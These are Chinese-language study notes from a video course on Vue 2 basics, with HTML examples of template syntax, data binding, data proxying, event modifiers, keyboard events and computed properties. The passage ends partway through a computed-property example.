# Vue2+Vue3学习

内容来自尚硅谷视频：https://www.bilibili.com/video/BV1Zy4y1K7SH

## Vue基础

一套用于**构建用户界面**的渐进式**JavaScript**框架

后续学习时对于一些名称解析可以查询MDN：

https://developer.mozilla.org/zh-CN/

### 特点

1. 采用组件化模式，提高代码复用率、且让代码更好维护。

   

2. 声明式编码，让编码人员无需直接操作DOM，提高开发效率

   传统JS：命令式编码

   

   vue：声明式编码

   

3. 使用虚拟DOM+优秀的Diff算法，尽量复用DOM节点。

   传统JS：数据是直接覆盖的

   

   vue：复用数据

   


### 前置知识

* ES6语法
* ES6模块化
* 包管理器
* 原型、原型链
* 数组常用方法
* axios
* promise


### 官网

Vue2：https://v2.cn.vuejs.org/

Vue3：https://cn.vuejs.org/


### 安装使用Vue

https://v2.cn.vuejs.org/v2/guide/installation.html


下载完成后，新建项目引入js文件

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>初识Vue</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"/>
</head>
<body>

</body>
</html>
```


### 安装vue-devtools

此时浏览器会有警告，安装vue-devtools开发工具即可解决

 官网：https://github.com/vuejs/devtools#vue-devtools


下载页面：https://devtools.vuejs.org/guide/installation.html

这里根据自己常用的浏览器，下载对应插件。（需要科学上网）


下载edge的插件


使用edge访问就不会出现刚才的提示了


### 关闭提示

```html
<script>
    Vue.config.productionTip=false //阻止vue在启动时生成生产环境提示
</script>
```


### 第一个vue界面

提示：长按Shift+刷新可以强制刷新页面

Vue实例<---->容器

把容器里面变化的部分，交由vue实例去保管。


使用插值语法读取vue对象中data数据对象的内容

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>初识Vue</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
    <div id="root">
        <h1>hello, {{name}}.</h1>
    </div>

    <script type="application/javascript">
        // 阻止vue在启动时生成生产环境提示
        Vue.config.productionTip= false

        //创建Vue实例
        new Vue({
            el: '#root', //用于指定当前Vue实例为哪个容器服务，但通常为css选择器字符串
            data: { //data中用于存储数据，数据供el所指定的容器去使用，值暂时写成一个对象
                name: 'cxr'
            }
        })
    </script>
</body>
</html>
```

效果：


总结：


* js表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方。
  * a
  * a+b
  * method(a)
  * x === y ? 'a' : 'b'
* js代码：js语句
  * if(...){}
  * for(...){}


### Vue开发者工具使用

在使用Vue实例后，在浏览器的插件那里可以看到有关vue的细节信息。


可以在工具中操作对象


### Vue模板语法

前面讲到，再Vue容器中的代码称为模板。目标有两种语法：

* 插值语法：将一个动态的数据插入到指定位置
* 指令语法：将修饰的属性可以识别vue表达式


#### v-bind

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>初识Vue</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
    <div id="root">
        <h1>插值语法：</h1>
        <h1>您好, {{name}}.</h1>
        <hr>
        <h1>指令语法：</h1>
        <a v-bind:href="url.toUpperCase()" v-bind:x="hello">点我去{{school.name}}</a>
        <a :href="url" :x="Date.now()">点我去{{school.name}}2(v-bind简写)</a>
    </div>

    <script type="application/javascript">
        // 阻止vue在启动时生成生产环境提示
        Vue.config.productionTip= false

        //创建Vue实例
        new Vue({
            el: '#root', //用于指定当前Vue实例为哪个容器服务，但通常为css选择器字符串
            data: { //data中用于存储数据，数据供el所指定的容器去使用，值暂时写成一个对象
                name: 'cxr',
                url: 'https://www.baidu.com',
                hello: 'test-str',
                school: {
                    name: '百度'
                }
            }
        })
    </script>
</body>
</html>
```


#### v-model


使用v-bind会存在一个问题，单向数据绑定。

就是界面上手动更改的数据，不会更改到vue实例，而只存在vue容器里。


而使用v-model则可以实现容器和实例双向绑定。同时v-model只能应用在表单元素上，不能应用在其他元素。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>数据绑定</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    单向数据绑定：<input type="text" v-bind:value="value1">
    <br>
    双向数据绑定：<input type="text" v-model:value="value2">
    <hr>
    单向数据绑定(简写)：<input type="text" :value="value1">
    <br>
    双向数据绑定(简写)：<input type="text" v-model="value2">

</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    //创建Vue实例
    new Vue({
        el: '#root',
        data: {
            value1: 'zhuzhe',
            value2: 'zhuzhe'
        }
    })
</script>
</body>
</html>
```


### el与data的两种写法


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>el与data的两种写法</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>hello! {{name}}</h1>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    //el的两种写法
    /*const v = new Vue({
        /!*el: '#root',*!/
        data: {
            name: 'zhuzhe'
        }
    })*/

    /*console.log(v)*/

    /*不是在vue实例上操作，而是vue原型操作绑定容器*/
    /*v.$mount('#root');*/

    /*可以实现数据的延时绑定*/
    /*setTimeout(()=>{
      v.$mount('#root');
    },1000);*/

    //data的两种写法
    new Vue({
        el: '#root',
        //第一种：直接写数据
        /*data: {
            name: 'zhuzhe'
        }*/
        //第二种：调用一个函数获取返回值
        /*data:function () {
            console.log('@@@',this)//次数调用函数的是Vue实例
            return{
                name:'zhuzhe2'
            }
        }*/
        //第二种简写
        data() {
            console.log('@@@',this)//次数调用函数的是Vue实例
            return{
                name:'zhuzhe2'
            }
        }
    })
</script>
</body>
</html>
```


### MVVM

```
vue的设计是一定程度上参考了MVVM架构模型。
```

* M：模型Model，对应data中的数据
* V：视图View，模板
* VM：视图模型ViewModel，Vue实例对象


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>MVVM</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>学校名称：{{name}}</h1>
  <h1>学校地址：{{address}}</h1>
  <h1>运算1+1：{{1+1}}</h1>
  <h1>访问Vue对象：{{$options}}</h1>
  <h1>访问Vue对象2：{{$emit}}</h1>
  <h1>访问Vue对象3：{{_c}}</h1>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  const vm = new Vue({//vm这里就是表示MVVM中的VM
    el: '#root',
    data: {
      name: 'zhuzhe',
      address: '汕头',
      a: 1
    }
  })
  console.log("vm=",vm);
</script>
</body>
</html>
```


### 数据代理


> Object.defineProperty()方法

```
给一个对象动态添加属性，可以指定动态属性的配置，也可以给属性设置getter和setter，变得和Java操作对象一样。
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Object.defineProperty()数据代理</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">

</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    let person = {
        name: 'zhuzhe',
        sex: '男'
    }
    //给person对象添加属性，并且拥有很多配置项，可以动态更新
    /*Object.defineProperty(person,'age',{
        value: 18,
        enumerable: true, //控制动态属性参与枚举
        writable: true, //控制动态属性可以被修改
        configurable: true //控制属性是否可以被删除
    })

    console.log(Object.keys(person))//默认动态属性不参与枚举
    person.age = 19;
    console.log(person)//默认动态属性不能修改
    delete person.age;
    console.log(person)//默认动态属性不能删除*/

    let number = 18;

    //给对象设置一个age属性，并且这个属性像对象原生创建时属性一样，可以动态修改
    Object.defineProperty(person, 'age', {
        //当有人读取person的age属性时，get函数（getter）就会被调用，且返回值就是age的值
        get:function () {
            console.log("有人读取age属性")
            return number;
        },
        //当有人修改person的age属性时，get函数（setter）就会被调用，且返回值就是age的值
        set:function (val) {
            console.log("有人修改age属性，值是",val)
            number = val;
        }
    })

</script>
</body>
</html>
```


> 数据代理

```
数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>何为数据代理</title>
</head>
<body>
  <script type="application/javascript">
    let obj1 = {x:100};
    let obj2 = {y:200};
    Object.defineProperty(obj2,'x', {
      get(){
        return obj1.x;
      },
      set(val){
        obj1.x = val;
      }
    })
  </script>
</body>
</html>
```


### Vue中的数据代理

```
Vue通过对属性动态代理到Vue对象中，实现了VM的功能。（使用getter读取，使用setter更新）
```


在Vue实例中可以通过_data来访问到data对象。


在控制台修改name内容，就会调用Vue实例的setter方法更改data对象，而容器会调用getter方法读取data对象。所以在控制台修改之后，即可以在容器看到修改后内容。


vue对data的数据代理进行了2步：

1. 创建vue实例，实例中创建了`_data`，将编写的data内容赋值到`_data`属性。
2. vue实例再给`_data`创建了2个外部属性，两个字段做了getter和setter，对外部属性name和address的操作会直接反应到`_data`内部的属性上。
3. vue实例管理`_data`的两个属性name和address，这种方式就是数据代理，实现是基于方法Object.defineProperty()。


注：`_data`中的方法是数据劫持，为了实现当`_data`被修改时，能被Vue检测到并及时更新到容器。


### 事件处理

#### 事件方法v-on:click

```
Vue中定义了methods属性，可以在里面定义事件方法，使用v-on属性来为事件绑定Vue实例方法。
```


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>事件处理</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>hello,{{name}}</h2>
  <button v-on:click="showInfo">点我提示信息</button><br>
  <button @click="showInfo">点我提示信息(简写)</button><br>
  <button @click="showInfo2($event,123)">点我提示信息(传参)</button><br>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  new Vue({
    el: '#root',
    data:{
      name:'zhuzhe'
    },
    methods:{//配置函数
      showInfo(event){//所有被vue管理的函数不能写箭头
        console.log(event);//事件对象
        console.log(this);//Vue实例对象
        alert("您好！")
      },
      showInfo2(event, params){//所有被vue管理的函数不能写箭头
        alert("按钮文本："+event.target.innerText+", 点击传参："+params)
      }
    }
  })

</script>
</body>
</html>
```


#### 事件修饰符

```
在前面的事件操作中，可以对事件进行修饰。
```


#### prevent 阻止默认事件

例子：阻止a标签的默认跳转

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件修饰符</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>hello,{{name}}</h2>
    <a href="https://www.baidu.com" @click.prevent="showInfo">点我提示信息</a><!--.prevent也可以阻止a标签的默认跳转行为-->
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el: '#root',
        data:{
            name:'zhuzhe'
        },
        methods:{
            showInfo(e){
                //e.preventDefault()//阻止a标签的默认跳转链接行为
                alert("您好！")
            }
        }
    })

</script>
</body>
</html>
```


#### 事件捕获和事件冒泡

```
在JavaScript中，事件在产生之后是经历过事件捕获、事件冒泡。而事件的处理是在事件的冒泡阶段开始的。
```

事件捕获阶段是由外往内的，事件冒泡阶段是由内往外的。


默认在冒泡阶段处理事件：事件冒泡可以看到输出是由内到外


#### stop阻止冒泡、once只执行一次、capture在事件捕获阶段处理事件

```
Vue在修饰符可以嵌套使用，@click.stop.prevent 先阻止冒泡再阻止默认
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件修饰符</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
    <style>
        *{
            margin-top: 20px;
        }
        .div1{
            height: 50px;
            background-color: aqua;
        }
        .box1{
            padding: 5px;
            background-color: aquamarine;
        }
        .box2{
            padding: 5px;
            background-color: bisque;
        }
    </style>
</head>
<body>
<div id="root">
    <h2>hello,{{name}}</h2>
    <!--阻止默认事件-->
    <a href="https://www.baidu.com" @click.prevent="showInfo">点我提示信息(阻止默认事件)</a><!--.prevent也可以阻止a标签的默认跳转行为-->
    <!--阻止冒泡-->
    <div class="div1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息(阻止冒泡)</button>
    </div>
    <!--事件只触发一次-->
    <button @click.once="showInfo">点我提示信息(事件只触发一次)</button>
    <!--使用事件的捕获方式-->
    <div class="box1" @click="showMsg(1)">
        box1
        <div class="box2" @click="showMsg(2)">box2</div>
    </div>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el: '#root',
        data:{
            name:'zhuzhe'
        },
        methods:{
            showInfo(e){
                //e.preventDefault()//阻止a标签的默认跳转链接行为
                //e.stopPropagation()//阻止事件冒泡
                alert("您好！")
            },
            showMsg(msg){
                console.log(msg);
            }
        }
    })

</script>
</body>
</html>
```


在Vue中有一个修饰符可以在捕获阶段处理事件：@click.capture

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件修饰符</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
    <style>
        *{
            margin-top: 20px;
        }
        .div1{
            height: 50px;
            background-color: aqua;
        }
        .box1{
            padding: 5px;
            background-color: aquamarine;
        }
        .box2{
            padding: 5px;
            background-color: bisque;
        }
    </style>
</head>
<body>
<div id="root">
    <h2>hello,{{name}}</h2>
    <!--阻止默认事件-->
    <a href="https://www.baidu.com" @click.prevent="showInfo">点我提示信息(阻止默认事件)</a><!--.prevent也可以阻止a标签的默认跳转行为-->
    <!--阻止冒泡-->
    <div class="div1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息(阻止冒泡)</button>
    </div>
    <!--事件只触发一次-->
    <button @click.once="showInfo">点我提示信息(事件只触发一次)</button>
    <!--使用事件的捕获方式-->
    <div class="box1" @click.capture="showMsg(1)">
        box1
        <div class="box2" @click="showMsg(2)">box2</div>
    </div>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el: '#root',
        data:{
            name:'zhuzhe'
        },
        methods:{
            showInfo(e){
                //e.preventDefault()//阻止a标签的默认跳转链接行为
                //e.stopPropagation()//阻止事件冒泡
                alert("您好！")
            },
            showMsg(msg){
                console.log(msg);
            }
        }
    })

</script>
</body>
</html>
```


#### self属于当前元素触发的事件才进行处理

**事件冒泡时：外部标签的由于冒泡触发的点击事件，事件对象仍是内部事件源标签。**

比如一个div嵌套一个button，button触发点击事件后，会有一个点击和一个冒泡两个事件触发。

冒泡到div时，显示事件对象是button。


self属性可以阻止由冒泡触发的事件，触发事件方法只能由当前target所触发的事件。即点击div时才会调用事件方法。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件修饰符</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
    <style>
        *{
            margin-top: 20px;
        }
        .div1, .div2{
            height: 50px;
            background-color: aqua;
        }
        .box1{
            padding: 5px;
            background-color: aquamarine;
        }
        .box2{
            padding: 5px;
            background-color: bisque;
        }
    </style>
</head>
<body>
<div id="root">
    <h2>hello,{{name}}</h2>
    <!--prevent：阻止默认事件-->
    <a href="https://www.baidu.com" @click.prevent="showInfo">点我提示信息(阻止默认事件)</a><!--.prevent也可以阻止a标签的默认跳转行为-->
    <!--stop：阻止冒泡-->
    <div class="div1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息(阻止冒泡)</button>
    </div>
    <!--once：事件只触发一次-->
    <button @click.once="showInfo">点我提示信息(事件只触发一次)</button>
    <!--capture：使用事件的捕获方式-->
    <div class="box1" @click.capture="showMsg(1)">
        box1
        <div class="box2" @click="showMsg(2)">box2</div>
    </div>
    <!--只有event.target是当前操作的元素时才触发-->
    <div class="div2" @click.self="showInfo"><!--要求当前触发点击事件时，要由当前标签触发才会执行方法-->
        <button @click="showInfo">点我提示信息</button>
    </div>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el: '#root',
        data:{
            name:'zhuzhe'
        },
        methods:{
            showInfo(e){
                //e.preventDefault()//阻止a标签的默认跳转链接行为
                //e.stopPropagation()//阻止事件冒泡
                alert("您好！"+e.target)//事件冒泡后，外部div标签的点击事件也是显示由button触发的点击事件
            },
            showMsg(msg){
                console.log(msg);
            }
        }
    })

</script>
</body>
</html>
```


#### passive优先执行默认行为

一个滚动框的滚动事件

* @scroll：滚动进度条时触发滚动事件，滚动边界后的滚动操作不触发事件，鼠标拉动滚动条也触发滚动事件。
* @wheel：滚动进度条时触发滚动事件，即使到达边界继续滚动仍触发滚动事件，鼠标拉动滚动条不触发滚动事件。
  * 当事件函数是耗时操作时可以看到，是先触发函数，执行函数内容，执行完毕才让滚轮下滑。如果函数一直没处理完，这时是无法滚动滑轮的。
  * 使用**passive**属性，事件的默认行为（滚动条下滑）先执行再去执行事件方法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件修饰符</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
    <style>
        *{
            margin-top: 20px;
        }
        .div1, .div2{
            height: 50px;
            background-color: aqua;
        }
        .box1{
            padding: 5px;
            background-color: aquamarine;
        }
        .box2{
            padding: 5px;
            background-color: bisque;
        }
        .list{
            width: 200px;
            height: 200px;
            background-color: burlywood;
            overflow: auto;
        }
        li{
            height: 100px;
        }
    </style>
</head>
<body>
<div id="root">
    <h2>hello,{{name}}</h2>
    <!--prevent：阻止默认事件-->
    <a href="https://www.baidu.com" @click.prevent="showInfo">点我提示信息(阻止默认事件)</a><!--.prevent也可以阻止a标签的默认跳转行为-->
    <!--stop：阻止冒泡-->
    <div class="div1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息(阻止冒泡)</button>
    </div>
    <!--once：事件只触发一次-->
    <button @click.once="showInfo">点我提示信息(事件只触发一次)</button>
    <!--capture：使用事件的捕获方式-->
    <div class="box1" @click.capture="showMsg(1)">
        box1
        <div class="box2" @click="showMsg(2)">box2</div>
    </div>
    <!--只有event.target是当前操作的元素时才触发-->
    <div class="div2" @click.self="showInfo"><!--要求当前触发点击事件时，要由当前标签触发才会执行方法-->
        <button @click="showInfo">点我提示信息</button>
    </div>
    <!--事件的默认行为立即执行，无需等待事件回调执行完毕-->
    <ul @wheel.passive="demo" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el: '#root',
        data:{
            name:'zhuzhe'
        },
        methods:{
            showInfo(e){
                //e.preventDefault()//阻止a标签的默认跳转链接行为
                //e.stopPropagation()//阻止事件冒泡
                alert("您好！"+e.target)//事件冒泡后，外部div标签的点击事件也是显示由button触发的点击事件
            },
            showMsg(msg){
                console.log(msg);
            },
            demo(){//滚动事件
                console.log("@")
                for (let i=0; i<10000; i++){
                    console.log("#")
                }
                console.log("完成#")
            }
        }
    })

</script>
</body>
</html>
```


### 键盘事件

```
假设要实现一个输入框，在回车之后使用console输出当前输入框的内容。
```

使用JS中的方法，这里@是前面提到的v-on

* @keydown：按下去时触发
* @Keyup：按下松开后触发

传统JS是给输入框绑定一个Keyup事件，在触发后调用自定义方法。方法中再去判断出回车键，输出文本框内容。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>键盘事件</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>hello,{{name}}</h2>
  <input type="text" placeholder="按下回车提示输入" @keyup="showInfo">
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  new Vue({
    el: '#root',
    data:{
      name:'zhuzhe'
    },
    methods:{
      showInfo(e){
        //console.log("keyCode:",e.keyCode);//获取键盘按键的编码
        //console.log("Data:",e.target.value);//获取当前事件对象的内容
        if (e.keyCode==13){//判断回车按键事件时才执行
          console.log("InputValue:",e.target.value);
        }
      }
    }
  })
</script>
</body>
</html>
```


使用Vue的话只需要在事件函数后面新增一个别名。


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>键盘事件</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>hello,{{name}}</h2>
  <input type="text" placeholder="按下回车提示输入" @keyup.enter="showInfo">
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  new Vue({
    el: '#root',
    data:{
      name:'zhuzhe'
    },
    methods:{
      showInfo(e){
        //console.log("keyCode:",e.keyCode);//获取键盘按键的编码
        //console.log("Data:",e.target.value);//获取当前事件对象的内容
        // if (e.keyCode==13){//判断回车按键事件时才执行
        //   console.log("InputValue:",e.target.value);
        // }
        console.log("InputValue:",e.target.value);
      }
    }
  })
</script>
</body>
</html>
```




前面讲到的Vue提供很多默认的按键别名，同时如果自己需要定义其他按键的事件，不在别名列表中的话，可以通过原始按键名来调用。

```js
# 这一个方法就可以输出当前按键事件对应哪个按键名，Vue中使用了别名，实际enter和Enter是一样的效果
console.log("InputValue:",e.key);
```


要在Vue中使用别名效果的话，需要讲原始名更改为别名格式：

CapsLock ---> caps-lock（使用键码也可以）

注：Tab由于其特殊性需要和keydown配合使用，meta键是win键

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>键盘事件</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>hello,{{name}}</h2>
  <input type="text" placeholder="按下回车提示输入" @keyup.caps-lock="showInfo">
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  new Vue({
    el: '#root',
    data:{
      name:'zhuzhe'
    },
    methods:{
      showInfo(e){
        //console.log("keyCode:",e.keyCode);//获取键盘按键的编码
        //console.log("Data:",e.target.value);//获取当前事件对象的内容
        // if (e.keyCode==13){//判断回车按键事件时才执行
        //   console.log("InputValue:",e.target.value);
        // }
        console.log("InputValue:",e.target.value);
        console.log("InputValue:",e.key);
      }
    }
  })
</script>
</body>
</html>
```


Vue也支持自定义别名：你如果不想同原始名转横杠模式、不想用键码

```
Vue.config.keyCodes.zhuzhe = 13;
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>键盘事件</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>hello,{{name}}</h2>
  <input type="text" placeholder="按下回车提示输入" @keyup.zhuzhe="showInfo">
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  Vue.config.keyCodes.zhuzhe = 13;//将回车键码和自定义别名绑定
  new Vue({
    el: '#root',
    data:{
      name:'zhuzhe'
    },
    methods:{
      showInfo(e){
        //console.log("keyCode:",e.keyCode);//获取键盘按键的编码
        //console.log("Data:",e.target.value);//获取当前事件对象的内容
        // if (e.keyCode==13){//判断回车按键事件时才执行
        //   console.log("InputValue:",e.target.value);
        // }
        console.log("InputValue:",e.target.value);
        console.log("key=:",e.key);
      }
    }
  })

</script>
</body>
</html>
```


Vue中对组合键使用嵌套修饰方式

Ctrl+y

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>键盘事件</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>hello,{{name}}</h2>
  <input type="text" placeholder="按下回车提示输入" @keyup.ctrl.y="showInfo">
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  //Vue.config.keyCodes.zhuzhe = 13;//将回车键码和自定义别名绑定
  new Vue({
    el: '#root',
    data:{
      name:'zhuzhe'
    },
    methods:{
      showInfo(e){
        //console.log("keyCode:",e.keyCode);//获取键盘按键的编码
        //console.log("Data:",e.target.value);//获取当前事件对象的内容
        // if (e.keyCode==13){//判断回车按键事件时才执行
        //   console.log("InputValue:",e.target.value);
        // }
        console.log("InputValue:",e.target.value);
        console.log("key=:",e.key);
      }
    }
  })

</script>
</body>
</html>
```


### 计算属性与监视

#### 计算属性概念

```
计算data中的数据并返回，当属性更新时，计算属性跟着更新。
```


#### 姓名案例：插值语法实现

读取姓名拼接，并且姓只能读前三位。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>插值语法实现</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstname"><br>
    名：<input type="text" v-model="lastname"><br>
    全名：<span>{{firstname.slice(0,3)}}-{{lastname}}</span>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el:'#root',
        data:{
            firstname: '张',
            lastname: '三'
        }
    })
</script>
</body>
</html>
```



#### 姓名案例：methods实现

Vue实例监听数据，数据一旦发生变化，模板就会重新解析。包括使用插值语法调用方法，一经改动，则重新调用。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>methods实现</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstname"><br>
    名：<input type="text" v-model="lastname"><br>
    全名：<span>{{fullName()}}</span>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el:'#root',
        data:{
            firstname: '张',
            lastname: '三'
        },
        methods:{
            fullName(){
                return this.firstname + '-' + this.lastname;
            }
        }
    })
</script>
</body>
</html>
```


#### 姓名案例：计算属性实现

Vue将data中的数据视为属性，计算属性就是新建一个属性，它由前面定义的属性计算而来。

计算属性computed是Vue在计算之后，直接存放在Vue实例中，和`_data`没有关系。


计算属性在Vue实例读取过程中做了**缓存**，即如果有多个插值语法读取计算属性，只会计算一次。


虽然存在缓存，但Vue实例对计算属性的监控，在计算属性所依赖属性发生变化时，就会重新调用一次get()获取最新的计算属性，即保证不会像methods那样重复调用耗资源，有保证数据的及时更新。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>计算属性实现</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstname"><br>
    名：<input type="text" v-model="lastname"><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    const vm = new Vue({
        el:'#root',
        data:{
            firstname: '张',
            lastname: '三'
        },
        computed:{
            fullName:{
                //当有人读取fullName时，get就调用返回
                //get的调用时机：1. 初次读取fullName时，2.所依赖的属性（firstname、lastname）发生变化时
                get(){
                    console.log("get被调用了！")
                    return this.firstname + '-' + this.lastname;
                }
            }
        }
    })
</script>
</body>
</html>
```

可以看到控制台中只输出一次get()调用信息


编写set()提供了计算属性的修改响应。非必要。这里编写set()时需要改动到`_data`中的属性，否则无法触发get()的缓存。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>计算属性实现</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstname"><br>
    名：<input type="text" v-model="lastname"><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    const vm = new Vue({
        el:'#root',
        data:{
            firstname: '张',
            lastname: '三'
        },
        computed:{
            fullName:{
                //当有人读取fullName时，get就调用返回
